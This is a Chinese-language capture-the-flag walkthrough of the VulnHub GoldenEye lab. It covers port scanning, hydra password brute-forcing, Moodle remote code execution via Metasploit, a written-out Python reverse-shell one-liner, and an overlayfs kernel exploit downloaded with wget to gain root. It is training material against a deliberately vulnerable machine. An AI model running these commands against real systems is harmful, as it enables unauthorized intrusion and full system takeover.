


# 1-GoldenEye v1 靶场渗透
靶场地址：https://www.vulnhub.com/entry/goldeneye-1,240/
目标：获取 root 权限并捕获秘密的 GoldenEye 代码 - flag.txt。
# 1. 信息收集、密码爆破
使用 nmap 扫描 C 段主机存活情况。
本机 IP：192.168.222.133 靶机 IP：192.168.222.130
nmap -sP 192.168.222.0/24 | |
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 09:44 EDT | |
Nmap scan report for DESKTOP-AACP4RA.mshome.net (192.168.222.1) | |
Host is up (0.00017s latency). | |
MAC Address: 00:50:56:C0:00:01 (VMware) | |
Nmap scan report for 192.168.222.130 | |
Host is up (0.000095s latency). | |
MAC Address: 00:0C:29:2E:AC:12 (VMware) | |
Nmap scan report for 192.168.222.254 | |
Host is up (0.000092s latency). | |
MAC Address: 00:50:56:E8:F5:23 (VMware) | |
Nmap scan report for 192.168.222.133 | |
Host is up. | |
Nmap done: 256 IP addresses (4 hosts up) scanned in 3.99 seconds |
简单扫描一下靶机 IP，发现 25 和 80 端口开放
nmap 192.168.222.130 | |
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 09:45 EDT | |
Nmap scan report for 192.168.222.130 | |
Host is up (0.000091s latency). | |
Not shown: 998 closed tcp ports (reset) | |
PORT STATE SERVICE | |
25/tcp open smtp | |
80/tcp open http | |
MAC Address: 00:0C:29:2E:AC:12 (VMware) | |
Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds |
有 80 端口，打开网站 192.168.222.130 看看。
说发现一个目录可以登录： 192.168.222.130/sev-home/
进入后弹出登录的对话框，但是没有账号和密码
右键看一下 192.168.222.130 的源码，发现 terminal.js 文件
查看 terminal.js 文件，得到一些信息
// | |
//Boris, make sure you update your default password. | |
//My sources say MI6 maybe planning to infiltrate. | |
//Be on the lookout for any suspicious network traffic.... | |
// | |
//I encoded you p@ssword below... | |
// | |
//InvincibleHack3r | |
// | |
//BTW Natalya says she can break your codes | |
// | |
翻译： | |
// | |
//Boris，请确保更新您的默认密码。 | |
// 我的消息来源说军情六处可能计划渗透。 | |
// 留意任何可疑的网络流量...... | |
// | |
// 我在下面给你编码了密码 | |
// | |
//InvincibleHack3r | |
// | |
// 顺便说一句，Natalya 说她可以破解你的密码 | |
// |
关键信息：
Boris 、 Natalya 、 InvincibleHack3r
InvincibleHack3r
HTML 加密，解密得到密码：InvincibleHack3r
根据上文，这应该时 Boris 的密码，Boris,InvincibleHack3r 尝试登录，登录失败
尝试用户名小写 boris, 再次登录，登录成功～
页面显示信息：
GoldenEye
GoldenEye is a Top Secret Soviet oribtal weapons project. Since you have access you definitely hold a Top Secret clearance and qualify to be a certified GoldenEye Network Operator (GNO)
Please email a qualified GNO supervisor to receive the online GoldenEye Operators Training to become an Administrator of the GoldenEye system
Remember, since security by obscurity is very effective, we have configured our pop3 service to run on a very high non-default port
黄金眼
“黄金眼”是苏联的绝密轨道武器项目。既然您拥有访问权限，那么您肯定拥有绝密许可，并且有资格成为经过认证的黄金眼网络操作员 (GNO)
请向合格的 GNO 主管发送电子邮件以接收在线黄金眼操作员培训，成为黄金眼系统的管理员
请记住，由于隐匿性安全非常有效，因此我们已将 pop3 服务配置为在非常高的非默认端口上运行
关键信息： pop3 服务配置为在非常高的非默认端口上运行
我们之前没有扫到 pop3 的端口，现在使用 nmap 进行全端口扫描。
nmap -p- 192.168.222.130 | |
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 09:56 EDT | |
Nmap scan report for 192.168.222.130 | |
Host is up (0.00079s latency). | |
Not shown: 65531 closed tcp ports (reset) | |
PORT STATE SERVICE | |
25/tcp open smtp | |
80/tcp open http | |
55006/tcp open unknown | |
55007/tcp open unknown | |
MAC Address: 00:0C:29:2E:AC:12 (VMware) | |
Nmap done: 1 IP address (1 host up) scanned in 1.88 seconds |
发现未知的 55006 和 55007 端口，进一步针对这两个端口进行扫描
nmap -p55006,55007 192.168.222.130 -sS -sV -T5 -A | |
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 10:02 EDT | |
Nmap scan report for 192.168.222.130 | |
Host is up (0.00028s latency). | |
PORT STATE SERVICE VERSION | |
55006/tcp open ssl/pop3 Dovecot pop3d | |
|_ssl-date: TLS randomness does not represent time | |
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server | |
| Not valid before: 2018-04-24T03:23:52 | |
|_Not valid after: 2028-04-23T03:23:52 | |
|_pop3-capabilities: SASL(PLAIN) PIPELINING TOP CAPA USER RESP-CODES AUTH-RESP-CODE UIDL | |
55007/tcp open pop3 Dovecot pop3d | |
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server | |
| Not valid before: 2018-04-24T03:23:52 | |
|_Not valid after: 2028-04-23T03:23:52 | |
|_ssl-date: TLS randomness does not represent time | |
|_pop3-capabilities: PIPELINING AUTH-RESP-CODE STLS RESP-CODES SASL(PLAIN) TOP CAPA USER UIDL | |
MAC Address: 00:0C:29:2E:AC:12 (VMware) | |
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port | |
Device type: general purpose | |
Running: Linux 3.X|4.X | |
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 | |
OS details: Linux 3.2 - 4.9 | |
Network Distance: 1 hop | |
TRACEROUTE | |
HOP RTT ADDRESS | |
1 0.28 ms 192.168.222.130 | |
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . | |
Nmap done: 1 IP address (1 host up) scanned in 27.22 seconds |
关键信息：
55006：ssl/pop3：mail server
55007：pop3：mail server
发现 55006 和 55007 都是 pop3，用作邮件服务的。
考虑用 hydra 爆破 pop3
目前收集了两个用户名：boris、natalya，先将他们写进 users.txt
echo -e 'natalya\nboris' > users.txt |
然后用九头蛇爆破 pop3，密码字典用 kali 自带的
hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt 192.168.222.130 -s 55007 pop3 | |
[55007][pop3] host: 192.168.222.130 login: natalya password: bird | |
[55007][pop3] host: 192.168.222.130 login: boris password: secret1! |
成功爆破出密码
login: natalya password: bird
login: boris password: secret1!
尝试使用 nc 登录邮箱： nc 192.168.222.130 55007
先登录 boris 邮箱 user boris pass secret1!
nc 192.168.222.130 55007 | |
+OK GoldenEye POP3 Electronic-Mail System | |
user boris | |
+OK | |
pass secret1! | |
+OK Logged in. |
输入 list 查看邮件列表
list | |
+OK 3 messages: | |
1 544 | |
2 373 | |
3 921 | |
. |
retr 1 阅读第一封邮件
retr 1 | |
+OK 544 octets | |
Return-Path: <root@127.0.0.1.goldeneye> | |
X-Original-To: boris | |
Delivered-To: boris@ubuntu | |
Received: from ok (localhost [127.0.0.1]) | |
by ubuntu (Postfix) with SMTP id D9E47454B1 | |
for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT) | |
Message-Id: <20180425022326.D9E47454B1@ubuntu> | |
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT) | |
From: root@127.0.0.1.goldeneye | |
Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails or security risks because I trust you and the other admins here. | |
Boris，我是管理员。您可以在这里与同事和学生进行电子交流。我不会扫描电子邮件或安全风险，因为我信任您和这里的其他管理员。 | |
来自：root@127.0.0.1.goldeneye | |
. |
retr 2 阅读第二封邮件
retr 2 | |
+OK 373 octets | |
Return-Path: <natalya@ubuntu> | |
X-Original-To: boris | |
Delivered-To: boris@ubuntu | |
Received: from ok (localhost [127.0.0.1]) | |
by ubuntu (Postfix) with ESMTP id C3F2B454B1 | |
for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT) | |
Message-Id: <20180425024249.C3F2B454B1@ubuntu> | |
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT) | |
From: natalya@ubuntu | |
Boris, I can break your codes! | |
. | |
Boris,我能破解你的密码！ | |
来自：natalya@ubuntu |
retr 3 阅读第三封邮件
retr 3 | |
+OK 921 octets | |
Return-Path: <alec@janus.boss> | |
X-Original-To: boris | |
Delivered-To: boris@ubuntu | |
Received: from janus (localhost [127.0.0.1]) | |
by ubuntu (Postfix) with ESMTP id 4B9F4454B1 | |
for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT) | |
Message-Id: <20180425025235.4B9F4454B1@ubuntu> | |
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT) | |
From: alec@janus.boss | |
Boris, | |
Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in hidden file within the root directory of this server then remove from this email. There can only be one set of these aces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash ad burn! | |
Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our inal stages.... | |
PS - Keep security tight or we will be compromised. | |
. | |
Boris， | |
您与我们集团的合作将会带来丰厚的回报。 随附的是 GoldenEye 的最终访问代码。 将它们放入该服务器root目录中的隐藏文件中，然后从该电子邮件中删除。 这些 ace 代码只能有一组，我们需要保护它们以便最终执行。 如果它们被找回并捕获，我们的计划就会崩溃！ | |
一旦 Xenia 进入培训站点并熟悉 GoldenEye 终端代码，我们将进入最后阶段...... | |
PS - 保持严格的安全措施，否则我们将受到损害。 | |
来自：alec@janus.boss |
关键信息：
flag 在服务器 root 目录的隐藏文件中
Natalya 能破解 Boris 的密码
登录 Natalya 的邮箱
nc 192.168.222.130 55007 | |
+OK GoldenEye POP3 Electronic-Mail System | |
user natalya | |
+OK | |
pass bird | |
+OK Logged in. | |
list | |
+OK 2 messages: | |
1 631 | |
2 1048 | |
. | |
retr 1 | |
+OK 631 octets | |
Return-Path: <root@ubuntu> | |
X-Original-To: natalya | |
Delivered-To: natalya@ubuntu | |
Received: from ok (localhost [127.0.0.1]) | |
by ubuntu (Postfix) with ESMTP id D5EDA454B1 | |
for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT) | |
Message-Id: <20180425024542.D5EDA454B1@ubuntu> | |
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT) | |
From: root@ubuntu | |
Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you. | |
Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus. | |
. | |
Natalya，请你停止破解Boris的密码。 此外，您还是 GNO 培训主管。 一旦为您指定了学生，我会向您发送电子邮件。 | |
另外，请警惕可能的网络入侵。 我们得到情报称，黄金眼正在受到一个名叫Janus的犯罪集团的追捕。 | |
来自：root@ubuntu | |
retr 2 | |
+OK 1048 octets | |
Return-Path: <root@ubuntu> | |
X-Original-To: natalya | |
Delivered-To: natalya@ubuntu | |
Received: from root (localhost [127.0.0.1]) | |
by ubuntu (Postfix) with SMTP id 17C96454B1 | |
for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT) | |
Message-Id: <20180425031956.17C96454B1@ubuntu> | |
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT) | |
From: root@ubuntu | |
Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :) | |
Ok, user creds are: | |
username: xenia | |
password: RCP90rulez! | |
Boris verified her as a valid contractor so just create the account ok? | |
And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir | |
**Make sure to edit your host file since you usually work remote off-network.... | |
Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts. | |
. | |
好的，Natalyn，我给你带来了一个新学生。 由于这是一个新系统，如果您发现任何配置问题，请告诉我或Boris，特别是它是否与安全相关......即使不是，只需以“安全”为幌子输入......它就会 轻松升级变更单:) | |
好的，用户凭证是： | |
用户名：xenia | |
密码：RCP90rulez! | |
Boris验证了她是有效的承包商，所以只需创建帐户即可，好吗？ | |
如果您没有外部内部域上的 URL：severnaya-station.com/gnocertdir | |
**请确保编辑您的主机文件，因为您通常在离线状态下远程工作...... | |
由于您是 Linux 用户，只需将此服务器 IP 指向 /etc/hosts 中的 severnaya-station.com 即可。 |
关键信息：
URL： severnaya-station.com/gnocertdir
将此服务器 IP 指向 /etc/hosts 中的 severnaya-station.com
用户名： xenia
密码： RCP90rulez!
配置 /etc/hosts ，进入 severnaya-station.com/gnocertdir 网站登录 xenia，发现来自 Dr_Doak 的消息
Page path：
Home / ► My profile / ► Messages
关键信息：
My email username is...doak
又得到一个邮箱的用户名，直接拿九头蛇爆破他
hydra -l doak -P /usr/share/wordlists/fasttrack.txt 192.168.222.130 -s 55007 pop3 | |
[55007][pop3] host: 192.168.222.130 login: doak password: goat |
登录 doak 邮箱查看邮件
nc 192.168.222.130 55007 | |
+OK GoldenEye POP3 Electronic-Mail System | |
user doak | |
+OK | |
pass goat | |
+OK Logged in. | |
list | |
+OK 1 messages: | |
1 606 | |
. | |
retr 1 | |
+OK 606 octets | |
Return-Path: <doak@ubuntu> | |
X-Original-To: doak | |
Delivered-To: doak@ubuntu | |
Received: from doak (localhost [127.0.0.1]) | |
by ubuntu (Postfix) with SMTP id 97DC24549D | |
for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT) | |
Message-Id: <20180425034731.97DC24549D@ubuntu> | |
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT) | |
From: doak@ubuntu | |
James, | |
If you're reading this, congrats you've gotten this far. You know how tradecraft works right? | |
Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information...... | |
username: dr_doak | |
password: 4England! | |
. | |
James, | |
如果您正在阅读本文，那么恭喜您已经走到这一步了。你知道谍报技术是如何运作的吧？ | |
因为我不知道。转到我们的培训网站并登录我的帐户......挖掘，直到你能获得进一步的信息...... | |
用户名：dr_doak | |
密码：4England! |
得到 doak 的培训账号，这个 James 是谁，难道是我？
用户名：dr_doak
密码：4England!
进入培训网站登录 doak 博士的账号
发现一个新用户，是管理员。
Page path：
Home / ► My profile / ► Messages
发现给 James 的文件：s3cret.txt
Page path：
Home / ► My home
下载下来看看：
007, | |
I was able to capture this apps adm1n cr3ds through clear txt. | |
Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. | |
Something juicy is located here: /dir007key/for-007.jpg | |
Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play. | |
007, | |
我能够通过clear txt捕获这个应用程序admin 凭据。 | |
GoldenEye 服务器中的大多数 Web 应用程序中的文本都会被扫描，因此我无法在此处添加凭据。 | |
这里有些有趣的东西:/dir007key/for-007.jpg | |
您也可能知道，RCP-90 比任何其他武器都优越得多，而《杀人执照》是唯一的游戏方式。 |
难道我是 007？🤔
收集到新目录：/dir007key/for-007.jpg
去看看：severnaya-station.com//dir007key/for-007.jpg
一张抽象的图片，通过这张图片能得到 admin 的凭据
应该是有隐写，下载下来看看
使用 exiftool、binwalk、strings 都行
exiftool for-007.jpg | |
ExifTool Version Number : 12.76 | |
File Name : for-007.jpg | |
Directory : . | |
File Size : 15 kB | |
File Modification Date/Time : 2018:04:25 08:40:02+08:00 | |
File Access Date/Time : 2024:05:14 11:52:01+08:00 | |
File Inode Change Date/Time : 2024:05:14 11:51:51+08:00 | |
File Permissions : -rw-r--r-- | |
File Type : JPEG | |
File Type Extension : jpg | |
MIME Type : image/jpeg | |
JFIF Version : 1.01 | |
X Resolution : 300 | |
Y Resolution : 300 | |
Exif Byte Order : Big-endian (Motorola, MM) | |
Image Description : eFdpbnRlcjE5OTV4IQ== | |
Make : GoldenEye | |
Resolution Unit : inches | |
Software : linux | |
Artist : For James | |
Y Cb Cr Positioning : Centered | |
Exif Version : 0231 | |
Components Configuration : Y, Cb, Cr, - | |
User Comment : For 007 | |
Flashpix Version : 0100 | |
Image Width : 313 | |
Image Height : 212 | |
Encoding Process : Baseline DCT, Huffman coding | |
Bits Per Sample : 8 | |
Color Components : 3 | |
Y Cb Cr Sub Sampling : YCbCr4:4:4 (1 1) | |
Image Size : 313x212 | |
Megapixels : 0.066 |
发现一个 eFdpbnRlcjE5OTV4IQ== BASE64 加密
解密后：xWinter1995x!
应该是得到了培训系统的管理员账号：admin 密码:xWinter1995x!
尝试登录一下，成功～
# 2. 利用漏洞 getshell，反弹 shell
可以知道 CMS：Moodle 的版本：2.2.3
google 一下 moodle 2.2.3 exp cve
漏洞详情：https://www.exploit-db.com/exploits/29324
CVE：2013-3630
Description：
Moodle through 2.5.2 allows remote authenticated administrators to execute arbitrary programs by configuring the aspell pathname and then triggering a spell-check operation within the TinyMCE editor.
翻译：Moodle 到 2.5.2 允许远程身份验证管理员通过配置 aspell 路径名，然后在 TinyMCE 编辑器中触发拼写检查操作来执行任意程序。
先用 msf 试一下：

搜索一下 Moodle，发现编号 1 就是刚才找的漏洞， use 1 使用这个攻击模块
show options 显示需要配置的选项
Required 显示 yes 的是需要配置的选项：
set password xWinter1995x!
set rhosts severnaya-station.com
set targeturi /gnocertdir
配置 payload
set payload cmd/unix/reverse
show options 显示要 payload 配置选项
设置 lhost，反弹 shell 需要回来找的 IP, 填本地 IP set lhost 192.168.222.132 （这里换了切到另一个 kali，所以 IP 与前面不同）
run 运行，失败了，错误的触发 payload
msf6 exploit(multi/http/moodle_spelling_binary_rce) > run | |
[*] Started reverse TCP double handler on 192.168.222.132:4444 | |
[*] Running automatic check ("set AutoCheck false" to disable) | |
[+] The target appears to be vulnerable. Exploitable Moodle version 2.2 detected | |
[*] Authenticating as user: admin | |
[*] Getting session key to update spellchecker if no session key was specified | |
[*] Updating spellchecker to use the system aspell | |
[*] Triggering payload | |
[-] Exploit aborted due to failure: payload-failed: Error triggering payload | |
[*] Exploit completed, but no session was created. |
看一下详情漏了什么点：https://www.exploit-db.com/exploits/29324
我们去系统里看看 editor_tinymce_spellengine 是否设置成 power shell 命令执行
，果然没有改一下，默认是 Google Spell, 改成 PSpellShell
Page path:
Home / ► Site administration / ► Plugins / ► Text editors / ► TinyMCE HTML editor
回到 msf，再 run, 已经成功反弹 shell 了，权限是 www-data
看看有没有 python，可以用 python 构建个 pty 伪终端，方便一些
python -c 'import pty; pty.spawn("/bin/bash")' |

另一种反弹方式，按照漏洞详情中那样配置 aspell 路径，触发拼写检查，也试试...
先配置 aspell 路径:
Page path:
Home / ► Site administration / ► Server / ► System paths

改成：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.222.133",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' |
使用 python 反弹 shell, 反向连接自己...
nc 监听一下
nc -vlp 6666 | |
listening on [any] 6666 ... |
找到拼写检查进行触发
Page path：
Home / ► My profile / ► Blogs / ► Add a new entry
反弹成功，构建一下伪终端
# 3. 提权
uname -a 查看系统版本 ubuntu 3.13.0
uname -a | |
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux | |
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ |
找一下 ubuntu 3.13.0 的 exp
EDB-ID:37292
CVE:2015-1328
https://www.exploit-db.com/exploits/37292
Description:
The overlayfs implementation in the linux (aka Linux kernel) package before 3.19.0-21.21 in Ubuntu through 15.04 does not properly check permissions for file creation in the upper filesystem directory, which allows local users to obtain root access by leveraging a configuration in which overlayfs is permitted in an arbitrary mount namespace.
在 Ubuntu 3.19.0-21.21 到 15.04 版本的 Linux (又名 Linux 内核) 包中的 overlayfs 实现没有正确地检查上层文件系统目录中文件创建的权限，这允许本地用户通过利用一个配置获得 root 访问权限，其中 overlayfs 在任意挂载名称空间中都是允许的。
earchsploit 37292 找一下 kali 中是不是自带这个 exp
earchsploit 37292 | |
------------------------------------------------------------------------------------ --------------------------------- | |
Exploit Title | Path | |
------------------------------------------------------------------------------------ --------------------------------- | |
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37292.c | |
------------------------------------------------------------------------------------ --------------------------------- | |
Shellcodes: No Results |
找到了把他复制出来
cp /usr/share/exploitdb/exploits/linux/local/37292.c . |
看看目标系统有没有 gcc，exp 需要 gcc 编译
发现对方服务器没有 gcc，改一下 exp, 将 gcc 改为 cc
在 exp 所在目录开启一个 http 服务
python -m SimpleHTTPServer 8081 | |
Serving HTTP on 0.0.0.0 port 8081 ... |
在反弹的 shell 上将 exp 下载到目标服务器
一定要切换到 /tmp 目录，不然没权限
cd /tmp | |
www-data@ubuntu:/tmp$ wget http://192.168.222.133:8081/37292.c | |
wget http://192.168.222.133:8081/37292.c | |
--2024-05-14 00:25:00-- http://192.168.222.133:8081/37292.c | |
Connecting to 192.168.222.133:8081... connected. | |
HTTP request sent, awaiting response... 200 OK | |
Length: 5120 (5.0K) [text/plain] | |
Saving to: '37292.c' | |
100%[======================================>] 5,120 --.-K/s in 0s | |
2024-05-14 00:25:00 (1.87 GB/s) - '37292.c' saved [5120/5120] |
编译 运行，成功获取 root 权限
cc 37292.c -o exp # 编译 | |
./exp # 运行 | |
id # 查看权限 | |
uid=0(root) gid=0(root) groups=0(root),33(www-data) # 拥有 root 权限了 |
# 4. 拿到 flag
由前面信息收集所知，flag 在 root 目录下的隐藏文件
568628e0d993b1973adc718237da6e93 是个 md5 加密，解密后为 006
访问 http://severnaya-station.com/006-final/xvf7-flag/ 成功拿到 Flag
# 5. 总结
本次学到的内容
- nmap 的使用
-sS-sV-sP-p--A-T5
- hydra 的使用
-l-L-p-P-s-vV-t
- msf 一把梭
- 图片隐写
- exiftool
- binwalk
- strings
- python 构建伪终端
- python 写反弹 shell
- getshell 思路
- 提权思路
- 渗透测基本思路
# nmap 用到的命令
-sP 表示主机存活性扫描。不扫描端口。
-p<port>,<port> 扫描指定端口。
-Pn 参数表示不进行主机存活性检测（Ping Scan），而是直接对目标进行端口扫描。
-p- 表示扫描所有端口，即从端口 1 到 65535 的所有端口都会被扫描。
-sS : 表示使用 SYN 扫描（SYN Scan）技术进行端口扫描。它利用 TCP 协议中的 SYN 标志来判断目标主机上的端口是否处于开放状态。
相比于完全连接扫描（TCP 连接扫描），SYN 扫描的优势在于更快速和更隐蔽。因为 SYN 扫描不需要建立完整的 TCP 连接，只发送一个 SYN 包就能获取目标端口的响应，所以扫描速度更快，并且在目标主机的日志中留下的记录更少，更不容易被检测到。
然而，一些防火墙和入侵检测系统（IDS）可能会监测到 SYN 扫描活动，并采取相应的防御措施，如限制 SYN 包的发送频率或阻止响应 SYN 包的端口。
-sV : 这个参数指定了进行版本检测（Version Detection）。在端口扫描的基础上， -sV 参数会尝试识别目标主机上运行的服务及其版本信息。
-T5 : 这个参数指定了扫描的速度 / 敏感度级别。 -T5 表示使用最高的扫描速度和敏感度（Insane）。这会使扫描速度加快，但也会增加对目标网络和主机的负载和影响。
-A 参数是一个高级选项等价于 -sV -sC -O -T4
-sC：使用默认脚本进行扫描。这个选项会在扫描过程中使用 nmap 默认的脚本来进行漏洞检测和服务识别。-O：进行操作系统检测。这个选项会尝试识别目标主机所运行的操作系统类型和版本。-T4：设置扫描速度为 Aggressive。这个选项会使 nmap 以较快的速度执行扫描操作，但不会达到最高速度
# hydra 用到的命令
-l 后面跟用户名，不跟文件，只会匹配这一个用户名。
-L 后面跟文件，每行一个用户名，会匹配文件中的所有用户名。
-p 后面跟密码，不跟文件，只会匹配这一个密码
-P 后面跟文件，每行一个密码，会匹配文件中的所有密码。
-s <port> <server> 后面跟对应端口服务
-vV 显示每次匹配时的详细信息